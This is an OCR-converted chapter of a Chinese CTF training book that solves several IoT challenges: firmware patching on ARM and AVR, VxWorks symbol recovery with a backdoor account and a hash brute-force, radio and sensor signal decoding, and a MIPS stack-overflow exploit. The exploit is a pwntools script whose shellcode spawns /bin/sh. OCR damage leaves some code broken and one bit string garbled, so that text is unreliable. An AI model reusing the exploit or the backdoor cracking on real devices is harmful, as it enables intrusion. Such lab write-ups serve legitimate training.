

???+ abstract "本章摘要"
    本章以多道 CTF 赛题串联前文方法：从 ARM、TWI 和 VxWorks 固件的静态分析，到 4G Radio 的波形解调，再到传感器报文的曼彻斯特解码、字段差分与 MIPS 漏洞利用。关键价值在于把架构识别、基地址、文件系统、无线数据和利用链放进同一条可验证的解题流程。
## 章节导航

上一篇：[第29章 无线信号分析](第29章 无线信号分析.md)

下一篇：[00-目录](00-目录.md)

回到目录：[00-目录](00-目录.md)

## 一、经典赛题讲解

IoT领域涉及的范围极广，并非一本书所能涵盖得了的，本书希望达到的目标更多是引导以及提供思路，并没有完全涵盖所有理论以及基础知识。本篇中提到的工具也是比赛解题中行之有效的工具，各个知识点都是笔者本人的经验技巧。本章作为本篇的最后一章，收集了近几年比较经典的IoT类赛题为大家进行集中讲解，同时扩展解题的思路，希望对于读者在今后的学习和比赛能够有所启发。

### 30.1 PCTF2016: Confused ARM

本题的大部分关键点在第27章中都已经有过介绍，我们直接继续分析即可，最后的main函数，如图30-1所示。

其中，sub_80006A4、sub_80007F0、sub_8000A50这些函数看上去像是初始化函数，8000A50的参数115200其实是指定了波特率，因此可以大胆猜测这几个函数与我们关心的题目内容并不十分相关，所以我们着重要分析的是后面的几个函数。由于以0x20000000开始的地址在RAM中，仅通过静态调试并不容易分析出内容，所以这里采用第27章中的MDK来动态调试以辅助分析。我们在main函数的位置0x08001084处下断点，当到达main函数时，在Memory窗口中输入0x20000000，即可查看内存中的数据。其中，有一处数据引起了我们的注意，在sub_800560中引用了0x2000002C的数据，该处的输入如图30-2所示。

可以看到，0x2000002C处开始的数据为637C 777B…这个像什么？

没错，这就是AES的SBox，所以我们可以大胆推测，这里使用了AES算法。而main函数中的Key是0x2000000C处的16字节数据，即为AES

Key，我们从内存中很容易就可以看到，Key为

0x430x420x410x400x470x460x450x440x4b 0x4a 0x490x480x4f 0x4e

0x4d 0x4c。那么加密的内容呢？通过观察我们很容易发现，

sub_8000560和sub_800055c都是对key进行的操作，而sub_8000248使

用了key对flag进行操作，那么0x200031C中的内容即为解密的flag，0x2000001C中的内容就肯定是需要解密的密文了。但实际上，在前面的图片中看到的flag提交了是不对的，同时根据题目提示，程序中有一处算法使用错误。根据实际情况分析，可以判断出sub_8000560和sub_800055c均为Key扩展相关的函数，修改注释如图30-3所示。

```python
int _cdecl _noreturn main()
{
    SystemInit();
    sub_80006A4();
    sub_80007F0();
    sub_8000A50(115200);
    sub_8000AA8(&USART1, 64);
    sub_8000560((int)dword_2000000C, (int)&unk_2000026C);
    while (1)
    {
        if (unk_20000000)
        {
            printf(
                "Key is :0x%08x,0x%08x,0x%08x,0x%08x\r\n",
                dword_2000000C[0],
                dword_2000000C[1],
                dword_2000000C[2],
                dword_2000000C[3]);
            unk_20000000 = 0;
        }
        if (!sub_80007E2(&GPIOA, 2))
        {
            sub_800055C((int)dword_2000000C, (int)&unk_2000026C);
            sub_8000248((int)&unk_2000001C, (int)dword_2000031C, (int)dword_2000000C);
            sub_8000AA8(&USART1, 64);
            printf(
                "Fl4g 1s :PCTF{%08x%08x%08x%08x}\r\n",
                dword_2000031C[0],
                dword_2000031C[1],
                dword_2000031C[2],
                dword_2000031C[3]);
        }
    }
}

```
*图30-1 整理后的main函数*

{ width="68%" }


*图30-2 内存数据*


由图30-3可以注意到，在AES_Decrypt处，在key扩展函数独立的情况下，加解密应该使用 $ \text{exp\_key} $进行，而非十六字节的原始key，也即AES_Decrypt的第三个参数应该为 $ \text{exp\_key} $才对，看到这里，我们就找到了算法的使用错误了，那么接下来patch一下，将key的地址改为 $ \text{exp\_key} $的地址，步骤如下。

依次选择Edit→Patch Program→Change Byte，由于IDA没有ARM 汇编器，所以只能编辑Bytes，在这里将R2改为exp_key，如图30-4所示。

```python
int _cdecl _noreturn main()
{
    SystemInit();
    sub_80006A4();
    sub_80007F0();
    sub_8000A50(115200);
    sub_8000AA8(&USART1, 64);
    keyexpan((int)key, (int)&exp_key);
    while (1)
    {
        if (unk_20000000)
        {
            printf("Key is :0x208x,0x208x,0x208x,0x208x\r\n", key[0], key[1], key[2], key[3]);
            unk_20000000 = 0;
        }
        if (!sub_80007E2(&GPIOA, 2))
        {
            key_deexpan((int)key, (int)&exp_key);
            AES_Decrypt((int)&ciphertext, (int)plaintext, (int)key);
            sub_8000AA8(&USART1, 64);
            printf("Fl4g 1s :PCTF(%08x%08x%08x%08x)\r\n", plaintext[0], plaintext[1], plaintext[2];
        }
    }
}

```
*图30-3 进一步识别关键函数*


{ width="53%" }


*图30-4 对固件进行patch*


同时还要修改R0，原来是0x2000000C+0x10，现在0x2000000C变成了0x2000026C，那么要相应减去0x00000250，最后的patch结果如图30-5所示。

{ width="62%" }


*图30-5 修改后的固件*


由于IDA不支持保存到hex文件，因此我们直接将hex文件用文本编辑器打开，按图30-6所示的字节修改即可。

{ width="51%" }


*图30-6 用文本编辑器修改Intel hex文件*


注意，行末的checksum原来为76，修改为如图30-6所示的结果后要改为E7，否则加载时会报checksum错误提示。关于Intel hex格式的checksum计算，大家可以参考图30-7。

{ width="75%" }


*图30-7 Intel hex格式*


checksum为除了startcode和checksum部分的字节数值之和，并且计算过程中只保留了1字节，即对256取余。最后对0x100求补，即用0x100减去最后计算出的加和。patch后用MDK重新加载，然后打开UART#1窗口。加载完成后运行，在UART#1窗口中就能看到正确的flag了，如图30-8所示。

{ width="68%" }


*图30-8 UART窗口获得答案*

### 30.2 UCTF2016资格赛：TWI

拿到题目首先用file命令进行识别，命令如下：

[root@kali:~] % file twi
twi: ELF 32-bit LSB executable, Atmel AVR 8-bit, version 1
(SYSV), statically linked, stripped

Atmel单片机的程序比较少见，不过早年在reversing.kr上已经有类似的题目了。

使用前面介绍的AVR Studio进行调试，同时结合IDA进行分析，如图30-9所示，sub_62函数在不停操作TWCR和TWSR寄存器，而这两个寄存器均是AVR的TWI外设所使用的寄存器，这也是本题的名字为TWI（Two Wire Interface）的原因。本题的输入并非stdin或者UART。

使用hapsim辅助调试，创建TWI的Terminal1，向程序发送数据。分析主函数，可以发现刚开始有一段会不停调用sub_62，这部分应该是读取数据的部分，在这段内容之后下一个断点分析，如图30-10和图30-11所示。

{ width="44%" }


*图30-9 TWI函数片段*

{ width="62%" }


*图30-10 下断点位置*

{ width="63%" }


*图30-11 AVR Studio中对应的断点位置*


第1个陷阱：sub_A5实际上是一个TWI通信函数，在本题中与题目无关，但在实际运行的时候会导致程序卡住，所以直接patch掉这句！nop的机器码是0000，Patch完后用AVR Studio重新加载程序，如图30-12所示。

{ width="60%" }


*图30-12 nop程序的位置*


第2个陷阱：此处有一个很长的二重循环，像是一个软件延时，且对调试并没有什么用，也需要全部nop掉，如图30-13所示。

{ width="75%" }


*图30-13 第二处Patch位置*


第3个陷阱：由于这题的I2C协议不是标准的TWI协议，因此会导致TWCR标志位始终不是0，还是会卡在sub_9F处，所以将前面那个循环全部nop掉即可，如图30-14所示。

最后，就能成功断在301地址上了，如图30-15所示。

动态调试很容易就能看出来，这里的sub_38B是比较了38个字节的前5个是否为“flag”，以及最后一个字节是否为“}”，接着跟踪。需要注意的是，AVR为哈弗结构，数据和指令是分开的，要看读入 buffer的内存变化。区块要选择Data，如图30-16所示。

{ width="75%" }


*图30-14 第三处patch位置*

{ width="59%" }


*图30-15 需要分析的断点位置*

{ width="76%" }


*图30-16 AVR Studio的内存浏览器*


sub_29F和sub_2AD这两个函数都比较简单，一个是将38字节的前5个和最后1个也就是flag {} 从输入里去掉，只保留中间的32字节，第二个则是将这32字节进行unhex解码，若输入里面包含非十六进制（也就是不是0-9a-f之间的），则该位直接为0，最后会得到一个16字节的 buffer。

最终我们可以发现，关键代码如图30-17所示。

{ width="27%" }


*图30-17 关键逻辑位置*

动态调试一下，很容易发现是进行了什么操作，归纳如下：

((((((buffer[i]\^c[i])\*a[i])\&0xFF)\^d[i])\*b[i])\&0xFF)

每一步操作均可逆。其中，c[i]、a[i]、d[i]、b[i]是从代码存储区获取的，这里需要注意的是，不要搞错内存！算法并不难，接下来只要逆回去就可以得到flag了。解题的Python脚本具体如下：

```python
#!/usr/bin/env python

import gmpy2

a =
[32441,4865,4861,13691,65483,45749,23147,54841,893123,4854
81,989421,9875,7451,238747,87413,9841]

b =
[8731,3781,42395871,98341,27843,3713,621113,897847,328741,
987451,3975981,8789,7625,5467,9659,78423]

c = [10,86,92,86,96,175,177,245,199,51,170,113,
158,194,54,4]

d = [131,16,116,146,70,25,198,173,196,208,210,
190,209,202,30,156]

cflag =
[138,80,247,193,197,155,42,10,81,212,115,238,142,213,233,3
0]

res = ''

for i in xrange(16):
    tmp = (((cflag[i] *
    gmpy2.invert(b[i],256)&0xFF)^d[i])*gmpy2.invert(a[i],256))
&0xFF)^c[i]
    res += chr(tmp)

print 'flag{'+res.encode('hex')+'}'

```
### 30.3 UCTF2016决赛：Normandie

该题是一个施耐德PLC以太网模块的固件分析题，这里主要分析固件中的后门账号。

拿到题目后首先用file命令进行识别，命令如下：

```text
[root@kali:~/Xman/Normandie ]% file chall.bin
chall.bin: data

```
出乎意料，结果是data。

不过，并不是没办法，下面再使用binwalk看看：

```text
[root@kali:~/Xman/Normandie ]% binwalk chall.bin
DECIMAL HEXADECIMAL DESCRIPTION

901 0x385 Zlib compressed data, default compression

```
从0x385开始是zlib压缩的内容。

既然是压缩的，也许是分析不出什么了，那么我们先解压，代码如下：

```python
#!/usr/bin/env python
import zlib
f = open('chall.bin', 'rb')
data = f.read()
f.close()
data = data[0x385:]
decompress = zlib.decompressobj().decompress(data)
f2 = open('chall.decompressed', 'wb')
f2.write(decompress)
f2.close()

```
解压之后，用binwalk查看结果，如图30-18所示，结果丰富了很多。

{ width="75%" }

*图30-18 binwalk分析结果*


结果是一堆文件，但是我们可以看到其中包含了如下关键信息：

2211604 0x21BF14 VxWorks WIND kernel version "2.5"
2225264 0x21F470 Copyright string: "Copyright Wind River Systems, Inc., 1984-2000"
2321952 0x236E20 Copyright string:
"copyright_wind_river"
3118988 0x2F978C Copyright string: "Copyright, Real-Time Innovations, Inc., 1991. All rights reserved."
3126628 0x2FB564 Copyright string: "Copyright 1984-1996 Wind River Systems, Inc."
3153524 0x301E74 VxWorks symbol table, big endian, first entry: [type: function, code address: 0x1FF058, symbol address: 0x27655C]

这似乎是一个可执行文件，那VxWroks又是什么呢？通过Google搜索和上面收集的信息可以了解到，这是一个大端序的实时操作系统，如图30-19所示。

第十四次动员专规止进行甲：

## VxWorks [编辑]

维基百科，自由的百科全书

VxWorks是美国风河系统（WindRiver）公司于1983年设计开发的一种嵌入式实时操作系统（RTOS），是嵌入式开发环境的关键组成部分。良好的持续发展能力、高性能的内核以及友好的用户开发环境，在嵌入式实时操作系统领域占据一席之地。VxWorks支持几乎所有现代市场上的嵌入式CPU，包括x86系列、MIPS、PowerPC、Freescale ColdFire、Intel i960、SPANC、SH-4、ARM、StrongARM以及xScale CPU。

它以其良好的可靠性和卓越的实时性被广泛地应用在通信、军事、航空、航天等高精尖技术及实时性要求极高的领域中，如卫星通讯、军事演习、弹道制导、飞机导航等。在美国的F-16、F/A-18战斗机、B-2隐形轰炸机和爱国者导弹上，甚至连一些火星探测器，如1997年7月登陆的火星探测器，2008年5月登陆的凤凰号 $ ^{[1]} $，和2012年8月登陆的好奇号也都使用到了VxWorks。

*图30-19 Wikipedia上的Vxworks介绍*


接下来使用strings命令进行分析，并在输出结果中找到了如下信息：

MY_BOARD_NAME - PowerPC 860
1.1/2
50MHZ

原来，主机是PowerPC的，那么我们接下来用IDA试着加载它。在Porcessor type里选择PowerPC big-endian[PPC]，如图30-20所示。

{ width="70%" }

*图30-20 固件加载窗口*


在不知道基地址的时候，我们先按0地址加载，加载上去看看能不能分析出代码，如图30-21所示。

{ width="49%" }


*图30-21 memory organization 窗口*


在CPU型号选择窗口（如图30-22所示）中，先按默认的ppc选择，然后点击OK按钮，如图30-22所示。

<div style="text-align: center;">Drag a file here to disassemble it</div>


{ width="58%" }


*图30-22 CPU具体类型选择窗口*


加载后发现已经能分析出部分代码了，但没有符号，甚至还有解析问题，如图30-23所示。下一步，我们就需要确定基地址，以解决这些问题。

{ width="75%" }


*图30-23 固件加载完成之后的界面*


在28.3节中我们介绍过PPC的基地址确定方法，下面找一条@ha的直接寻址指令，如图30-24所示。

{ width="74%" }


*图30-24 相对寻址指令处*


可以确定基地址为0x10000，用新的基地址重新加载固件，设置如图30-25所示。

重新加载后，函数识别全部正常，如图30-26所示。

{ width="51%" }


*图30-25 重新加载固件窗口*

{ width="35%" }


*图30-26 重新加载后的函数列表*


最后一步，重建符号表，先在程序中找到符号表，如图30-27所示。

{ width="62%" }


*图30-27 程序的符号表的所在位置*


使用 IDA Python 重建符号表，代码如下：

```text
for i in range(0,10069):
    name = (GetString(Dword(0x0311E64+0x10*i),-1,0))
    addr = Dword(0x0311E64+0x10*i+4)
MakeName(addr,name)

```
重建完成后的结果如图30-28所示。

{ width="76%" }


*图30-28 恢复符号后的效果*


最后分析usrAppInit函数，可以得到后门账号

NoTNsAb4ckD0or0r，密码使用了哈希算法，哈希算法是一个私有的算法，哈希值为ybz99SbRd。通过查阅资料可以发现其加密方式，如图30-29所示。

{ width="70%" }


*图30-29 网络上查询到的信息*


搜索loginDefaultEncrypt的源码，可以得到其加密方式的关键，如图30-30中的代码所示。

```python
#!/usr/bin/env python

plain = 'dr6RFp"ACY^g~nqj{R^ sE}z'
checksum = 0
for ix in range(len(plain)):
    checksum += ord(plain[ix])*(ix+1)^(ix+1)

checksum = (checksum ★ 31695317)&0xFFFFFFFF
hsh = str(checksum)
print hsh

res = ''
for ix in range(len(hsh)):
    if (ord(hsh[ix])<ord('3)):
        res += chr((ord(hsh[ix])+ord('!'))&0xFF)
        continue
    if (ord(hsh[ix])<ord('7)):
        res += chr((ord(hsh[ix])+ord('/'))&0xFF)
        continue
    if (ord(hsh[ix])<ord('9)):
        res += chr((ord(hsh[ix])+ord('B'))&0xFF)
        continue
    res += hsh[ix]

print res

```
*图30-30 加密算法代码*


先通过明文的每个字节计算Checksum，公式如下：

checksum是一个32位整型，按十进制转换成字符串，然后对字符串的每一位进行操作。后面的操作是可逆的！所以这里想到的方法是爆破checksum。但在本题中，出题人对loginDefaultEncrypt进行了patch操作，如图30-31所示。

{ width="70%" }


*图30-31 加密算法被出题者修改的位置*


这也意味着，实际加密函数变成了checksum+=ord(plain[ix])*(ix+1)。所以，稍作修改，爆破即可，很容易就能得到如下的可行密码：

### 30.4 ACTF2016: 4G Radio

该题提供了一个wav文件，用Matlab读入，查看波形图，可以看出其使用了29.2节中介绍的ASK调制方式，时序波形如图30-32所示。

{ width="100%" }


*图30-32 题目文件的时序波形*


思路很明确，取绝对值后，结果如图30-33所示。

{ width="75%" }


*图30-33 题目波形取绝对值后的效果*


然后设计滤波器，这里使用29.3节提到的sptool进行设计和滤波，结果如图30-34所示。

{ width="75%" }


*图30-34 滤波器设计结果*


滤波后的结果如图30-35所示。

{ width="100%" }


*图30-35 滤波器应用后的效果*


然后，判决抽样抽出二进制位即可，代码如下：

```matlab
left = outsig(1);
lefti = 1;
ans =；《];
for i=2:size(outsig)
    if (outsig(i) - left > 0.5)
        ans = [ans,1];
        left = 0.7;
        lefti = i;
    else
        if (left - outsig(i) > 0.5)
            ans = [ans,0];
            left = 0;
            lefti = i;
        else
            if (i - lefti > 90)
                ans = [ans,ans(end)];
                lefti = i;
        end
    end
end

```
最后，对得到的二进制位进行曼彻斯特解码。0-1跳变表示0，1-0跳变表示1。保存后可以得到一张图片。图片上是个二维码，扫描后会指向百度网盘的网址，链接地址为

http://pan.baidu.com/s/1mgAAOzQ，密码为yiw9，下载下来是一个摄像头的固件，要求得到管理员admin的密码，binwalk后发现是JFFS2 filesystem。这里使用28.4节中提到的mtd-utils挂载分区，最后在www目录下的system.ini中找到admin的密码。

### 30.5 UCTF2016资格赛：传感器(1)(2)

### 1. 传感器（1）

题目如图30-36所示。

{ width="69%" }


*图30-36 传感器1题目文本*


首先对结果进行曼彻斯特解码，对于每个字节，是按照LSB First 的方式来解码。

对于RF调制来说，都是以字节为一个符号进行发送的。这里有两种发送方式：LSB First和MSB First。注意，不要直接将解调出来的二进制位整个倒过来。解码如下：

5555555595555A65556AA696AA6666666955  $ \rightarrow $转为比特：

0101010101010101010101010101010110010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101010101

注意，LSB First指的是每个字节，并不是上面的01串整个倒过来，这是一个容易出错的点！

比特数据按曼彻斯特解码即可。

· 01表示1，10表示0——因为曼彻斯特编码一般有2种，01表示1还是0要尝试之后才能确定。

· 00000000000000010000000001101000000011111011001111101010101010101101100000——这里01表示0，10表示1。

· 1111

· 1111

·


| 0xFF | 0xFF | 0xFE | 0xD3 | 0x1F | 0x64 |
| --- | --- | --- | --- | --- | --- |
| 0x50 | 0x55 | 0xF9 |  |  |  |

即flag为FFFFFED31F645055F9，与题目中提到的传感器ID为0xFED31F相符。

### 2. 传感器（2）

题目如图30-37所示。

{ width="60%" }


*图30-37 传感器2题目文本*


传感器2的解码思路与传感器1相同，但本题的考察点为数据包diff的方法。先解码：

抽取不同的部分：

FFFFFED31F 63 5055 F8
FFFFFED31F 42 5055 D7

注意，加粗的部分不同，我们接下来要重点分析。

· FED31F: ID
·0x63和0x42：压力
·0xF8和0xD7：checksum

25psi时候的报文是什么？0x63/0x42=1.545/30=1.525psi对应多少只需进行同比例缩放即可。checksum怎么办？0xF8=（0xFE+0xD3+0x1F+0x63+0x50+0x55）&0xFF；0xD7=（0xFE+0xD3+0x1F+0x42+0x50+0x55）&0xFF。为什么前两个FF不用加进去？具体解释如下。

FFFF其实对应于曼彻斯特编码为0101010101串，这在无线电传输领域是有实际物理意义的，称为preamble，用于提供接收方同步时钟信号，校准相位。这部分对实际传输的内容是没有影响的。

### 30.6 UCTF2016资格赛：Add

首先使用file命令对题目所提供的文件进行识别，命令如下:

```text
[root@kali:~/Xman/hacking-MIPS ]% file add
add: ELF 32-bit LSB executable, MIPS, MIPS-I version 1
(SYSV), dynamically linked, interpreter /lib/ld.so.1, for GNU/Linux 2.6.18,
BuildID[sha1]=2bbfd9dd356de4e12870defaa67f386c360fd9c3,
not stripped

```
本题为�ipsel的可执行程序，因此首先需要搭建调试环境，调试环境已在27.6节中给出，要想调试本题，需要使用debian-�ipsel的虚拟机。通过checksec脚本可以发现，本题开启了NX，但在27.1节中已经提到�ips硬件上并不支持NX，因此开不开NX对本题的shellcode执行并不会产生影响。

shellcode可以使用msfvenom生成，为了调试方便，将虚拟机的5555端口转发出来，并在虚拟机内使用socat创建一个服务器，代码如下：

```bash
socat TCP4-LISTEN:5555,reuseaddr,fork EXEC:./add

```
{ width="59%" }


*图30-38 计算器运行效果*


运行效果并不容易分析，但经过测试很快就能发现该程序存在栈溢出漏洞，如图30-39所示。溢出长度为112。

同时，利用27.8节中提到的反编译网站，可以得到图30-40所示的代码。

从一开始就使用了确定的随机数种子，接着，在程序中有一处比较，当输入等于该随机数时，会泄露Buffer的地址，如图30-41所示。

至此，已经可以确定攻击代码的位置以及如何控制程序执行流程了，接下来编写exp脚本就非常容易了，本题的利用脚本具体如下：

{ width="75%" }


*图30-39 程序存在栈溢出漏洞*

```c
int main(int argc, char ** argv) {
    char v1[64];
    char str[10];
    int32_t v2; // 0x410ea4
    int32_t v3; // 0x410eb4
    int32_t stream; // 0x4008b0
    setvbuf((struct struct_IO_FILE *)stream, NULL, 2, 0);
    puts|[calc]";
    puts("Type 'help' for help.");
    srand(0x123456);
    int32_t v4 = (int32_t)&v1; // 0x40091c_1
    int32_t v5 = rand(); // 0x40091c
    sprintf(str, "%d", v5);
    int32_t v6 = 128; // 0x400978
    int32_t v7 = v4; // 0x40091c_18
    // branch -> 0x400978
    while (true) {
        int32_t v8 = v6 < 2;
        int32_t v9 = v6; // 0x40089835
        int32_t v10 = v7; // 0x40091c_19
        // branch -> 0x400984
        while (true) {
            // 0x400984
            int32_t v11; // 0x400984
            ((int32_t (*))v11);
            int32_t v12; // 0x4009c0
            int32_t v13; // bp+111
            int32_t * v14; // 0x400abc_13
            int32_t * v15; // 0x400abc_14
            int32_t * v16; // 0x400abc_15
            int32_t * v17; // 0x400abc_16
            if (v8 < 0) {
                v13 = v10;
                v16 = v17;
                lab_0x400ad4_2:
                // 0x400ad4

```
*图30-40 题目程序反编译后的代码*

{ width="75%" }


*图30-41 漏洞触发比较位置*


```python
#!/usr/bin/env python
from pwn import *
p = remote("127.0.0.1",5555)

buf = ""
buf +=
"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
buf +=
"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
buf +=
"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
buf +=
"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = 'A'*8+buf

while len(payload) < 112:
    payload += "\x00'

p.send("2057561479\n")
p.recvuntil("was ")

data = p.recvuntil("\\n") [:-1]

baseaddr = int(data, 16)

print "baseaddr=", hex(baseaddr)

shellcodeaddr = baseaddr + 8
data = payload + p32(shellcodeaddr) + " 1\\n"
p.send(data)
p.send("exit\\n")
p.interactive()

```
最终即可获取shell，如图30-42所示。

{ width="75%" }


*图30-42 题目获取shell后的效果图*


以上题目均已被JarvisOJ收录。欢迎大家登录JarvisOJ: https://www.jarvisoj.com进行练习，笔者也会不定期更新一些高质量题目以供大家练习。

## 本篇小结

在本篇中，我们学习了IoT的基本概念和目前CTF比赛中常见的IoT赛题以及IoT固件逆向分析的技巧，最后还进行了实例赛题的讲解，相信读者读完能够对IoT相关赛题有一个整体的感受。IoT范畴广阔，受限于篇幅，对于一本CTF比赛指导教材，不可能涵盖过于专业艰深的细节内容。

本书旨在帮助读者针对性地掌握一些解题技巧，更快入门和了解IoT相关赛题。当然，有兴趣的读者可以参考其他相关书籍作为补充。

最后，众所周知没有任何一本书是完美的。所以，若读者发现有什么错误或者更好的解题方法，也欢迎指正和交流。

## 学习梳理

### 30.1 PCTF2016: Confused ARM

???+ tip "本节要点"
    - 该题把 ARM 固件识别、加载与控制流分析落到具体样本中。
    - 应从架构与入口等基础设置开始，再用反汇编结果验证判断。
    - 案例强调对异常二进制保持可验证的分析节奏。
### 30.2 UCTF2016资格赛：TWI

???+ tip "本节要点"
    - 该题将设备接口、协议理解与固件分析结合。
    - 面对外设通信题，应同时观察数据格式、控制逻辑和硬件语义。
    - 逐步验证每个字段或状态比直接猜测结果更可靠。
### 30.3 UCTF2016决赛：Normandie

???+ tip "本节要点"
    - 该题展示了 PowerPC/VxWorks 固件加载、基地址调整和符号恢复的过程。
    - 可识别函数和地址引用是检验加载设置是否正确的信号。
    - 自定义哈希或 patch 逻辑必须以实际代码为准。
### 30.4 ACTF2016: 4G Radio

???+ tip "本节要点"
    - 该题从波形中识别 ASK，再通过滤波、判决和曼彻斯特解码恢复数据。
    - 二维码、固件和文件系统构成跨层线索，需要沿结果继续推进。
    - 无线处理的每一步都要以图形或可读数据作为反馈。
### 30.5 UCTF2016资格赛：传感器(1)(2)

???+ tip "本节要点"
    - 传感器题把比特解码、字节序、前导码和数据包 diff 串成完整流程。
    - 变化字段与校验和可通过多报文对比定位。
    - 不要将整个比特串机械倒置，应按每个字节的传输方向处理。
### 30.6 UCTF2016资格赛：Add

???+ tip "本节要点"
    - 该题结合 MIPS 环境、栈溢出、地址泄露与 shellcode 组织利用链。
    - 保护机制的显示结果需要与具体硬件、架构和运行环境结合解释。
    - 漏洞利用前应先验证溢出偏移、泄露条件与控制流位置。
!!! warning "易错点"
    - 先确认架构、数据形态或调制方式，再选择反汇编、文件系统、协议或波形分析路径。
    - 不要把工具自动识别、反编译输出或单次解码结果直接当成结论；需要以地址、结构、校验或运行行为复核。
    - 原文中的 OCR 异常字符和不完整代码均按全内容保留原则呈现，阅读或复现时应回查上下文。
??? note "自测题"
    #### 基础
    1. Normandie 案例中为什么要重新确定并设置基地址？
    2. 4G Radio 案例的信号处理大致顺序是什么？
    3. 传感器案例为何不能把所有 01 位整体倒序？
    4. 传感器报文中 preamble 的作用是什么？
    5. Add 案例利用前需要确认哪些条件？
    
    #### 进阶
    6. 为什么 VxWorks 固件的符号恢复能改善分析效率？
    7. 分析自定义哈希和 patch 逻辑时，为什么不能照搬公开实现？
    8. 怎样把无线题恢复出的链接或文件安全地纳入分析链？
    
    #### 参考答案
    1. 正确基地址能让反汇编、函数识别和地址引用恢复为可解释的状态。
    2. 读取并观察波形，识别调制方式，进行预处理/滤波和判决，再做曼彻斯特解码。
    3. LSB First 描述的是每个字节内的位传输方向，不等同于整段比特串反转。
    4. 它用于接收端时钟同步和相位校准，通常不属于实际载荷内容。
    5. 溢出长度、缓冲区地址泄露、shellcode 位置和控制流覆盖位置。
    6. 符号可把地址关联到函数或数据语义，降低大规模固件的阅读成本。
    7. 题目可能修改实现，必须以样本中实际执行的指令和数据为准。
    8. 记录来源和每一步转换，先验证文件类型与结构，再按固件分析流程继续。
## 本章思维导图



## 参考资料

- 《CTF特训营》本章 OCR 原文。
- 本章各案例保留的题图、波形图、固件分析过程与原始链接。
- 案例中的结论应以题目样本、运行环境和原文给出的验证过程为准。

*来源：《CTF特训营》，OCR 全内容保留整理版。*


